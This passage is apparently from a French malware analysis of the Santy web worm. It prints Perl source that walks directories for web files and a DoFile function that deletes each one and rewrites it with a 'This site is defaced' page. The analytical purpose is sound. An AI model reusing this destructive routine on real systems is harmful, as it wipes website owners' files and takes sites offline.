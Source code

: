 ```pl

    if($ent =~ /\.htm/i or $ent =~ /\.php/i or $ent =~ /\.asp/i or
	   $ent =~ /\.shtm/i or $ent =~ /\.jsp/i or $ent =~ /\.phtm/i)
    { 
      DoFile($dir . $ent); 
    } 
  } 

  closedir DIR; 
}
```

### La fonction DoFile

La fonction `DoFile` constitue la partie visible du ver : elle prend en paramètre le chemin vers un fichier, efface ce dernier et le recrée en y insérant le message _This site is defaced!!! NeverEverNoSanity WebWorm generation x_ où `x` est un numéro qui augmente au fur et à mesure des compromissions (nous verrons cela plus tard). Le code de la fonction est le suivant :

```pl
sub DoFile($)
{
  my $s = q{
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <HTML><HEAD><TITLE>This site is defaced!!!</TITLE></HEAD>
    <BODY bgcolor="#000000" text="#FF0000">
    <H1>This site is defaced!!!</H1>
    <HR><ADDRESS><b>NeverEverNoSanity WebWorm generation
  } . $generation .
  q{</b></ADDRESS>
    </BODY></HTML>
  };

  unlink $_[0];
  open OUT, ">$_[0]" or return;
  print OUT $s;
  close OUT;
}
```

Pour les chaînes de caractères, l'auteur de Santy a eu recours la fonction `q{}` du perl qui permet de définir une chaîne de caractères sans avoir à se soucier des différents caractères d'échappement, doubles quotes etc.  

Au final, le fichier modifié à l'aspect suivant :

This site is defaced!!!
=======================

---

**NeverEverNoSanity WebWorm generation 18**

Nous sommes alors en mesure de comprendre quelle est la charge finale du ver : Santy explore les disques durs à la recherche de pages web et les modifie systématiquement provoquant ainsi des dégâts considérables (travaux ou documents personnels perdus, sites Internet hors service...)  
